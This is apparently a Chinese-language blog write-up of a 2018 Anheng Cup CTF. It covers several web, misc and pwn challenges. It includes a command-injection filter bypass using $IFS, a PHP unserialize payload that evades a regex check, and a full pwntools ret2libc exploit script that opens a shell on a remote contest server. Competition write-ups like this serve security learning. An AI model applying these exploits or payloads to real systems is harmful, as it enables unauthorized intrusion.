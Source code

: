 ```yaml
---
layout: post
title: 2018年安恒杯12月月赛writeup
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
  - pwn
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web

### ezweb（100分）:
一个网站，网站首页抓包在cookie里有一个user参数，解码发现时user，改成admin重新提交后跳转到admin.php。（ps:扫目录扫出admin.php，直接在admin.php改user参数没用，必须要从index跳转，很坑。。。）
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-2.png)
之后是一个框，可以直接命令执行，空格被过滤，用$IFS绕过即可，flag在系统根目录。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/ezweb-1.png)

### web2（200分）

源码已经给了，就是一个反序列化，正则是要求`o:`后面不能接数字，后面加一个加号可以绕过，注意提交的时候加号要url编码，不然会被当成空格。
payload:`O:+4:"baby":1:{s:4:"file";s:8:"flag.php";}`
```
 <?php  
@error_reporting(1); 
include 'flag.php';
class baby 
{   
    public $file;
    function __toString()      
    {          
        if(isset($this->file)) 
        {
            $filename = "./{$this->file}";        
            if (file_get_contents($filename))         
            {              
                return file_get_contents($filename); 
            } 
        }     
    }  
}  
if (isset($_GET['data']))  
{ 
    $data = $_GET['data'];
    preg_match('/[oc]:\d+:/i',$data,$matches);
    if(count($matches))
    {
        die('Hacker!');
    }
    else
    {
        $good = unserialize($data);
        echo $good;
    }     
} 
else 
{ 
    highlight_file("./index.php"); 
} 
?> 
```

##misc

### misc1(100分）
一个压缩包，密码提示如下，到最后都没人做出来，后来又放了提示`解压密码不是时间；8进制`比赛结束有人给出了密码`!(()!@)6125dou `，是csdn泄漏的密码库里没有重复的密码。。。这脑洞。后面也没做
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-1.png)
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc1-2.jpeg)

### misc2(100分）
签到题，关注公众号，什么牛不会跑，答案是蜗牛
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc2-1.jpeg)

### misc3(100分)
给了一个加密的压缩包，一个txt，压缩包里也有这个txt，比较一下crc发现一样，明文爆破就行了。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-1.png)
然后是一个docx文件，后缀名改成zip解压，`word\document.xml`里有一串md5，就是flag
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc3-2.png)
### misc4(100分)
一张png，我的mac下打不开，但是windows下能正常打开，说明图片高度有问题（mac大法好）。把高度和长度改成一样的，出现一段编码，因为末尾超过了两个==，猜测是base32，最后面再加上一个=base32解码即可。
![](/img/in-post/post-2018安恒杯12月月赛-writeup/misc4-1.png)

## pwn

### pwn1(100分)
很简单的栈溢出，120个字符溢出，开了nx保护，不能写shellcode，可以ret2libc。
```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"
context.binary = './messageb0x'
elf=ELF('./messageb0x')
# io=process("./messageb0x")
# io=gdb.debug("./messageb0x")
io=remote('101.71.29.5',10009)


putsplt=elf.plt['puts']
putsgot=elf.got['puts']
mainaddr=elf.symbols['process_info']
io.sendafter('are:\n','a\n')
io.sendafter('address:\n','b\n') 

payload="A"*92+p32(putsplt)+p32(mainaddr)+p32(putsgot)
io.sendlineafter('say:\n',payload)
# print io.recvuntil('Thank you !\n')[0:4]
io.recvuntil('Thank you !\n')
putaddr=u32(io.recv()[0:4])

print hex(putaddr)

obj = LibcSearcher("puts", putaddr)
libcbase=putaddr-obj.dump("puts")
systemaddr=libcbase+obj.dump("system")
straddr=libcbase+obj.dump("str_bin_sh")

io.send('a\n') 
io.sendafter('address:\n','b\n')
payload="A"*92+p32(systemaddr)+p32(mainaddr)+p32(straddr)
io.sendlineafter('say:\n',payload)
io.interactive()
```

[1]: https://www.linkedbyx.com/home